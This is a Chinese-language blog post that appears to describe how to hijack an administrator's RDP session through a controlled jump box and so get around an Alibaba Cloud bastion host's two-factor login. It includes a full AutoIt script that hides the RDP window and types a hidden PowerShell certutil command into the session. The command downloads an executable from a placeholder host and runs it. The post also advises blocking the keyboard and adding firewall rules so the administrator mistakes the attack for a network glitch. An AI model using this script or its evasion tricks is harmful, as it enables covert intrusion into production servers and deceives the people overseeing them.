


AutoIt SendKey绕过云盾堡垒机两步验证
本文最后更新于：8 天前
前言
最近遇到部署了阿里云云盾堡垒机的环境。云盾堡垒机后是windows server的生产环境机器，运维通过rdp到云盾堡垒机，再去选择服务器连接。虽然有了堡垒机的账号密码，但登录云盾堡垒机需要两步验证码，又没办法获取到运维的MFA，所以无法直接登录。在这种情况下，可通过SendKey的方式，来获取线上服务器权限。
运维登录过程：从本机RDP到跳板机（windows server 2012 R2） ==> 通过跳板机再RDP到阿里云堡垒机（输入堡垒机账号和两步验证码）==> 堡垒机再走rdp协议连接到线上服务器。
其中跳板机可控，目标有一个普通用户专门用来连接堡垒机。（如果运维的机器能直接rdp到堡垒机，也相当于这里的跳板机，道理是一样的）
进入正题。
SendKey
SendKey其实就是发送键盘指令。Windows下可以直接通过向某个窗口发送键盘指令来执行命令。例如发送WIN+R打开运行窗口，再发送cmd就会弹出cmd窗口。这个过程就像你自己在键盘上按WIN+R，打开cmd的方式一样。

推荐使用AutoIt来编写SendKey的程序。除此之外还有powershell版的WASP来SendKey，但是WASP不如AutoIt的可定制化程度高。
整体的思路是：当运维登录堡垒机时(已经连上了线上服务器，即开启了RDP窗口)，在跳板机执行AutoIt编写的exe，就会向堡垒机的RDP窗口发送键盘指令。比如发送WIN+R之后紧接着发送POWERSHELL -WINDOWSTYLE HIDDEN -C "CERTUTIL -URLCACHE -SPLIT -F HTTPS://xxx.com/xxx.exe C:/WINDOWS/TASKS/xxx.exe;C:/WINDOWS/TASKS/xxx.exe"来下载exe并执行。过程很简单，但是有很多细节和坑点需要注意，下面主要细说一下，代码在最后。
细节处理
跳板机mstsc程序的键盘设置必须是在远程计算机上。这样发送组合键才会发送到rdp的窗口去。

在发送指令的过程中不能被干扰，如果在SendKey的时候，RDP窗口内的聚焦不在WIN+R打开的运行窗口或cmd.exe的窗口内，那么就会输入到其他地方。并且还有最重要的一点要处理：总不能当着管理员的面WIN+R弹个框，输入一堆命令执行吧–_–
这两个问题推荐两种解决方法:
- 可以在发送指令的时候先隐藏这个RDP窗口(不是最小化，是直接隐藏这个窗口)，AutoIt可以实现。这样管理员无法操控和看到这个窗口，如果你有跳板机的管理员权限，甚至可以禁用键盘输入。这样更不容易影响SendKey的过程。整个过程执行完，运维看到窗口消失的时间大概3-4秒。
- 在SendKey的过程中，可以在跳板机上添加一条防火墙，阻断目标对跳板机的连接，也就3-4秒时间，之后再给他恢复就好了。
在有跳板机管理员权限的情况下，推荐第二种，这样可他能以为是网络波动暂时断了而已，第一种方法窗口突然消失，次数多了，风险会比较大。
SendKey的方式，并不是百分百成功率。
某种极端情况下，例如你把运维的rdp窗口隐藏后，运维疯狂按键盘，这种是百分百失败（WIN+R那里输入的字符串会乱，但疯狂点鼠标不会有影响）。所以最好拿到跳板机的管理员权限，这样可以通过禁用键盘输入来提高成功率。再加上防火墙规则，断开连接再恢复。也不会怀疑太多。
阿里云堡垒机默认有录屏功能，如果目标去查看录像，就很容易被发现。
AutoIt代码
#include <AutoItConstants.au3>
Local $aList = WinList("192.168.1.1:3389 - 远程桌面连接")
For $i = 1 To $aList[0][0]
Example($aList[$i][1]))
sleep(8000)
Next
Func Example($hWnd)
Local $iState = WinGetState($hWnd);判断是否是最小化
WinSetState($hWnd,"",@SW_HIDE)
SendKeepActive($hWnd)
Send("#r")
sleep(800)
Send("{DEL 2}")
Send("{SHIFTDOWN}");全部大写，是为了解决输入法的问题
Send("{SHIFTUP}")
sleep(800)
Opt("SendKeyDelay", 0)
Send('POWERSHELL{SPACE}{SPACE}-WINDOWSTYLE{SPACE}{SPACE}HIDDEN{SPACE}{SPACE}-C{SPACE}{SPACE}"CERTUTIL{SPACE}{SPACE}-URLCACHE{SPACE}{SPACE}-SPLIT{SPACE}{SPACE}-F{SPACE}{SPACE}HTTPS://XXX.com/XXX.PNG{SPACE}{SPACE}C:/WINDOWS/TASKS/XXX.EXE;C:/WINDOWS/TASKS/XXX.EXE"')
Sleep(500)
Send("{enter}{enter}")
sleep(500)
WinSetState($hWnd,"",@SW_SHOW)
If BitAND($iState, $WIN_STATE_MINIMIZED) Then
WinSetState($hWnd,"",@SW_MINIMIZE)
EndIf
EndFunc注：其实，只要是rdp窗口的都可以通过这个方法拿权限。
本博客所有文章除特别声明外，均采用 CC BY-SA 4.0 协议 ，转载请注明出处！